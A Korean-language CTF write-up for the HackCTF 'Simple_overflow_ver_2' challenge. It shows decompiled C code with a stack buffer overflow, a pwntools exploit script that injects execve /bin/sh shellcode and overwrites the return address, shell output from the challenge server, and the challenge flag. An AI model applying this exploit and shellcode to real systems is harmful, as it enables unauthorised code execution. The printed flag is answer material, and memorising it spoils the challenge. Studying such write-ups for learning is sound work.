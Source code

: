 # Simple_overflow_ver_2

---

`main()`의 코드는 다음과 같다

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v3; // ebx
  char v5; // [esp+13h] [ebp-89h]
  char s[128]; // [esp+14h] [ebp-88h]
  int i; // [esp+94h] [ebp-8h]

  setvbuf(stdout, 0, 2, 0);
  v5 = 121;
  do
  {
    printf("Data : ");
    if ( __isoc99_scanf(" %[^\n]s", s) )
    {
      for ( i = 0; ; ++i )
      {
        v3 = i;
        if ( v3 >= strlen(s) )
          break;
        if ( !(i & 0xF) )
          printf("%p: ", &s[i]);
        printf(" %c", (unsigned __int8)s[i]);
        if ( i % 16 == 15 )
          putchar(10);
      }
    }
    printf("\nAgain (y/n): ");
  }
  while ( __isoc99_scanf(" %c", &v5) && (v5 == 'y' || v5 == 'Y') );
  return 0;
}
```

s에 shellcode를 넣고 ret주소를 s의 주소로 변경시키면 될 것이다. s의 위치는 ebp-0x88이기 때문에 payload는 다음과 같다.

**[shellcode 25bytes] + [dummy 115bytes] + [s address 4bytes]**

첫 입력에서는 아무거나 입력해서 s의 address를 찾을 수 있다. 익스 코드는 다음과 같다.

```python
    from pwn import*
    
    p=remote('ctf.j0n9hyun.xyz',3006)
    
    p.recvuntil('Data : ')
    
    p.sendline('1')
    
    s=p.recv(10)
    
    p.recvline()
    
    s_address=int(s,16)
    
    payload='\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80'
    payload+='A'*115
    payload+=p32(s_address)
    
    p.recvuntil('Again (y/n): ')
    
    p.sendline('y')
    
    p.recvuntil('Data : ')
    
    p.sendline(payload)
    
    p.interactive()
```
---
```bash
    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/7.Simple_overflow_ver_2$ python ex.py
    [+] Opening connection to ctf.j0n9hyun.xyz on port 3006: Done
    [*] Switching to interactive mode
    0xffe94130:  1 � 1 � P h / / s h h / b i n \x89
    0xffe94140:  � R S \x89 � � \x0b � \x80 A A A A A A A
    0xffe94150:  A A A A A A A A A A A A A A A A
    0xffe94160:  A A A A A A A A A A A A A A A A
    0xffe94170:  A A A A A A A A A A A A A A A A
    0xffe94180:  A A A A A A A A A A A A A A A A
    0xffe94190:  A A A A A A A A A A A A A A A A
    0xffe941a0:  A A A A A A A A A A A A A A A A
    0xffe941b0:  \x80
    Again (y/n): $ whoami
    $ whoami
    attack
    $ ls
    flag
    main
    $ cat flag
    HackCTF{y0u_d1d_7h3_45516nm3n7_5ucc355fully!}
```
**flag: HackCTF{y0u_d1d_7h3_45516nm3n7_5ucc355fully!}**
